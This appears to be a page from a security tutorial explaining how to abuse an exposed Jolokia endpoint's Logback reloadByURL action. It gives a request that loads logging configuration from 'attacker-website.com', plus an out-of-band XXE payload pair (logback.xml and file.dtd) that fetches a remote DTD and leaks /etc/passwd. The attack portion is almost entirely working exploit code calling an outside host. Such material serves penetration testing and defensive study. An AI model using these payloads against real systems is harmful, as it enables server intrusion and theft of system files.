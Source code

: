 ## Logback::reloadByURL

You can list all available MBeans actions using the `/jolokia/list` endpoint. Most MBeans actions just expose some system data, but if the `reloadByURL` action provided by the `Logback` library exists:

![](img/jolokia-list.png)

the logging configuration can be reload from an external URL:

```http
http://localhost:8090/jolokia/exec/ch.qos.logback.classic:Name=default,Type=ch.qos.logback.classic.jmx.JMXConfigurator/reloadByURL/http:!/!/attacker-website.com!/logback.xml
```

### Out-Of-Band XXE

`Logback` uses XML configuration parsed by the `SAXParser` XML parser with external entities enabled. You can exploit this feature to trigger an Out-Of-Band XXE:

```xml
<!-- logback.xml -->
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE a [ <!ENTITY % remote SYSTEM "http://attacker-website.com/file.dtd">%remote;%int;]>
<a>&trick;</a>
```

```xml
<!-- file.dtd -->
<!ENTITY % d SYSTEM "file:///etc/passwd"> 
<!ENTITY % int "<!ENTITY trick SYSTEM ':%d;'>">
```
